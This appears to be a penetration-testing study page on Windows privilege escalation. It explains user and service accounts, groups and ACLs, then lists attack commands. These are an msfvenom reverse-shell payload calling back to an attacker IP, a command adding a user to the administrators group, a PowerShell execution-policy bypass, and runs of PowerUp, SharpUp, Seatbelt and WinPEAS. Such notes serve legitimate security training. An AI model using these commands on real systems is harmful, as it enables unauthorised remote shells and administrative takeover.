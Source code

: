 ```yaml
---
description: Goal low priv -> Administrator or SYSTEM
---
```


# 🪟 Windows

## Introduction

Our ultimate goal with privilege escalation in Windows is to gain a shell running as an Administrator or SYSTEM user.

Privilege escalation can be simple or require complete enumeration of the compromised system.

In a lot of cases, privilege escalation may require multiple misconfigurations in order to chain the perfect exploit.

All privilege escalations are effectively examples of access control violations.

Understanding how Windows handles permissions is <mark style="color:yellow;">paramount</mark>.

## User Accounts

<mark style="color:yellow;">User accounts</mark> are used to <mark style="color:yellow;">log into</mark> a Windows system.

The local Administrator account is created by default.

Several other user accounts may exist such as Guest, krbtgt, etc.

## Service Accounts

<mark style="color:yellow;">Service accounts</mark> are used to <mark style="color:yellow;">run services</mark> in Windows.

Service accounts <mark style="color:yellow;">cannot be used to sign into a Windows system.</mark>

The SYSTEM account is a default service account which has the highest privileges of any local account in Windows.

Other service accounts include NETWORK SERVICE and LOCAL SERVICE.

## Groups

User accounts can belong to multiple groups and groups can have multiple users.

Groups allow for easier access control to resources.

Regular groups have a set list of members.

Pseudo groups A.K.A. "Authenticated Users" have a dynamic list of members which changes based on certain interactions.&#x20;

## Resources

In Windows, there are multiple types of resource A.K.A. objects.

These include:&#x20;

* Files/Directories
* Registry Entries
* Services

Whether a user/group has permission to perform a certain action on a resource depends on that resource's access control list (ACL).

## ACLs & ACEs

Permissions to access a certain resource in Windows are controlled by the ACL for that resource.

Each ACL is made up of zero or more access control entries (ACEs).

Each ACE defines the relationship between a principal and a certain access right.&#x20;

## Spawning Administrator Shells

If we can <mark style="color:yellow;">execute commands with admin privileges</mark>, a reverse shell generated by <mark style="color:yellow;">msfvenom</mark> works the best.&#x20;

Syntax:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe
```

* Transfer the reverse shell to the compromised host and then the shell can be caught with netcat or Metasploit's Meterpreter

## Remote Desktop Protocol (RDP)

Alternatively, if RDP is available (or if we enable it), we can add our low privileged user to the administrators group and then spawn an administrator command prompt via the GUI.

Syntax:

```
net localgroup administrators <username> /add
```

## Admin -> SYSTEM

To <mark style="color:yellow;">escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool</mark>.

## Privilege Escalation Tools

### PowerUp & SharpUp

These are very similar tools that look for specific misconfigurations that can grant an attacker privilege escalation.

#### PowerUp

How-To:

```
powershell -exec bypass

. .\PowerUp.ps1
Invoke-AllChecks
```

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

#### SharpUp

How-To:

```
.\SharpUp.exe
```

{% embed url="https://github.com/GhostPack/SharpUp" %}

### Seatbelt

This is an enumeration tool. It consists of checks but does not actively look for misconfigurations.

It simply aids in investigation/enumeration.

How-To:

```
.\Seatbelt.exe

.\Seatbelt.exe NonstandardServices

.\Seatbelt.exe All
```

{% embed url="https://github.com/GhostPack/Seatbelt" %}

### WinPEAS

```
.\winPEASany.exe -h

.\winPEASany.exe userinfo
```

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}







